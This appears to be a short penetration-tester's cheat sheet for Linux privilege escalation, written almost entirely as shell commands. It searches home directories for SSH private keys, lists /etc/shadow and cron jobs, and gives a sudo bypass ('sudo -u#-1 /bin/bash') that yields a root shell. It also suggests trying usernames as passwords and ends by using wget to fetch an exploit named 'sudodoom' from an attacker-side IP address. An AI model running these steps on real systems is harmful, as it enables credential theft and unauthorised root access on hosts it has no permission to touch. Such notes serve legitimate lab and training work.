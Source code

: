 ```shell
id

find / -group <groups> 2>/dev/null

history

sudo -l

sudo -V | grep version

find / -name id_rsa 2>/dev/null
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"

find / -type f -perm -04000 -ls 2>/dev/null

ls -la /etc/passwd /etc/shadow /etc/security/opasswd

cat /etc/crontab
crontab -l

getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null

cat /etc/exports

sudo -u#-1 /bin/bash

ip a
ifconfig
netstat -r
ip route
ss -anp
routel
cat /etc/iptables/rules.v4

cat .bashrc

ps -aux
ps -aux | grep cron        <-- search for "root   /usr/sbin/cron -f"

realm list
ps -ef | grep -i "winbind\|sssd"

dpkg -l
```
1. Snoop on processes using pspy - some cron jobs may be running in the background
2. Research and enumerate literally every cron job running
3. su into other users using their usernames as passwords; vagrant:vagrant
4. Run PEAS and LinEnum
```shell 
wget 192.168.45.x/sudodoom
```
